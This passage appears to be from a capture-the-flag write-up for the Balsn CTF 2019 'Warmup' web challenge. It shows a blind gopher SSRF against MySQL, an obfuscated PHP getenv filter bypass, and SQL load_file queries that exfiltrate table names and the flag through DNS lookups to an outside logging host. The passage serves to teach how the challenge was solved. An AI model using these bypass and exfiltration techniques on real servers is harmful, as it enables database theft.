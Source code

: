 And we know the user is `admin` with empty password, so we can use `gopher://` protocol to  SSRF to query the MySQL Server.

<br>

Since the gopher payload is toooooo long, we should find a way to bypass the strict regex rule first.

If you try to search all PHP functions that satisfy the regex rule and length limit, you will find a useful function: `getenv()`.
This function will return the specifying header value.

Hence, we can put our gopher payload into the HTTP header:

`(~%98%9A%8B%9A%91%89)(~%B7%AB%AB%AF%A0%AB)` (length: 18)

It is equal to `getenv("HTTP_T")`.

<br>

### Step 4

Now, you have a blind SSRF!

For the MySQL protocol, you can use some tools like [Gopherus](https://github.com/tarunkant/Gopherus) to create the gopher payload.

At last, you just need to use Time-based or Out-of-band (DNS log) methods to exfiltrate the query result.

- `select load_file(concat("\\\\",table_name,".e222e6f24ba81a9b414f.d.zhack.ca/a")) from information_schema.tables where table_schema="ThisIsTheDbName";`
    - Output: `fl4ggg`
- `select load_file(concat("\\\\",column_name,".e222e6f24ba81a9b414f.d.zhack.ca/a")) from information_schema.columns where table_name="fl4ggg";`
    - Output: `the_flag_col`
- `select load_file(concat("\\\\",hex(the_flag_col),".e222e6f24ba81a9b414f.d.zhack.ca/a")) from ThisIsTheDbName.fl4ggg;`
    - Output: `42616C736E7B337A5F77316E643077735F7068705F6368346C7D`
    - hex to ascii: `Balsn{3z_w1nd0ws_php_ch4l}`


## Writeups

- [movrment's writeup](https://movrment.blogspot.com/2019/10/balsn-ctf-2019-web-warmup.html)
- [ljdd520's writeup](https://ljdd520.github.io/2019/12/19/2019balsnCTF%E7%9A%84Warmup%E5%92%8Ckoreanfish%E8%B5%9B%E5%90%8E%E5%A4%8D%E7%8E%B0/)

---

<br>

# 卍乂Oo韓國魚oO乂卍 (Koreanfish)


- Difficulty: ★
- Type: Web
- Solved: 15 / 720
- Tag: PHP, DNS Rebinding, Flask, Race condition, SSTI, RCE
